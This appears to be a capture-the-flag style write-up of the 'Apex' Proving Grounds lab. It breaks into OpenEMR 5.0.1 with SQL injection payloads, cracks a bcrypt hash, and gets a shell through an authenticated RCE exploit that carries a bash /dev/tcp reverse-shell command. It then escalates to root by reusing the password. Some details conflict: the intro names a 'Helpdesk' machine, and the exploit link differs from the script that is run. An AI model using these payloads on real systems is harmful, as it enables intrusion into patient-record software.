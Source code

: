 ```yaml
---
layout: single
title: Apex - Proving grounds Practice
date: 2023-06-21
classes: wide
header:
  teaser: /assets/images/linux.png
categories:
  - provinggrounds
  - infosec
tags:
  - provinggrounds
  - linux
  - intermediate
  - web
  - sqli
  - openemr
  - passwordcracking
---
```


## Linux

![](/assets/images/linux.png)

This blog post is a writeup of the Helpdesk machine from Proving grounds practice.

### Summary
------------------
- OpenEMR 5.0.1 it's vulnerable to a sql injection that allows us to get a password hash.
- Cracking this hash we can obtain the password and gain access to the web app.
- OpenEMR it's also vulnerable to RCE authenticated. Using the obtained password we are able to exploit it.
- Once inside the victim's machine we are able to reuse the same password to obtain root access.

### Detailed steps
------------------

### Enumeration

I started enumerating the open ports with:
```
nmap -Pn -p- 192.168.164.145
```
![nmap1](\assets\images\pg-practice-apex\1.JPG)

Knowing which ports are open, I executed an agressive nmap with:
```
nmap -A 192.168.164.145 -p 80,445,3306 -o nmapa.txt
```
![nmap2](\assets\images\pg-practice-apex\2.JPG)

As we can see in the last picture, there is a web server, a mysql server and a smb server.
By accessing the website I was able to see a sanitary webpage. By clicking on `Scheduler` I could access to a login page.

![webpage1](\assets\images\pg-practice-apex\5.JPG)

This login page shows that we are in front of a `OpenEMR`
![webpage2](\assets\images\pg-practice-apex\6.JPG)

In order to find out the OpenEMR version, I found a common OpenEMR directory named 'sql' which was present in this server.
This directory stores sql files which are generated in the updates. Knowing this, we can deduce OpenEMR version (`5.0.1` in this case).

![webpage3](\assets\images\pg-practice-apex\80.JPG)

Also this directory contains some more interesting files as database.sql. This file shows the structure of the OpenEMR database.

![webpage4](\assets\images\pg-practice-apex\89.JPG)

### Explotation

This OpenEMR version is vulnerable to some `sql injections` we can find in the following report:
https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf

This image shows the vulnerable files:
![sqli](\assets\images\pg-practice-apex\81.JPG)

Trying to search for these files I was able to acces to "add_edit_event_user.php" so I worked with this file.
![sqli2](\assets\images\pg-practice-apex\83.JPG)

To make this job easier, I looked in the database.sql file mentioned above. I could find a table named 'user_secure' which contains usernames and passwords.
![sqli2_"](\assets\images\pg-practice-apex\91_2.JPG)

After some attemps, I found a valid query using "substring" which can extract half password hash:
![sqli3](\assets\images\pg-practice-apex\90.JPG)

Modifying this query I was able to get the other half (just replacing 1,32 by 32,60):
![sqli4](\assets\images\pg-practice-apex\92.JPG)
Querys:
```
eid=1 AND EXTRACTVALUE(0x3b,(SELECT Substring(password,1,32)FROM users_secure LIMIT 0,1)))
eid=1 AND EXTRACTVALUE(0x3b,(SELECT Substring(password,32,64)FROM users_secure LIMIT 0,1)))
```

Hash:
```
$2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC
```

I used this page to analyse the hash --> https://hashes.com/es/tools/hash_identifier
As we can see in the picture, we are in front of a `bcrypt $2*$, Blowfish (Unix)`
![hash1](\assets\images\pg-practice-apex\93.JPG)

Knowing the type of hash I cracked it with hashcat:
![hash2](\assets\images\pg-practice-apex\95.JPG)

Now, having this password I was able to log in successfully to the web portal as admin user:
![access](\assets\images\pg-practice-apex\96.JPG)

![access2](\assets\images\pg-practice-apex\97.JPG)


`OpenEMR 5.0.1` is also vulnerable to a remote code execution (authenticated). This means that at this point I could exploit it.

In order to gain access I downloaded a python exploit from: https://www.exploit-db.com/exploits/48515
Opening a netcat listener and executing this exploit with the following paramaters, I was able to catch the shell.
```
python2 45161.py http://192.168.164.145/openemr -u admin -p thedoctor -c "bash -c 'bash -i >& /dev/tcp/192.168.164.145/5555 0>&1'"
```
![shell](\assets\images\pg-practice-apex\101.JPG)

![shell2](\assets\images\pg-practice-apex\102.JPG)

Being www-data user I was able to find the user flag:
![flag1](\assets\images\pg-practice-apex\103.JPG)


### Privilege escalation

In order to elevate privileges I have been looking for a way for a while until I realised that I could use the previously obtained password again.
Just typing su root and using "thedoctor" as password I was able to log in as root and find the root flag.
![root](\assets\images\pg-practice-apex\227.JPG)

![flag2](\assets\images\pg-practice-apex\228.JPG)
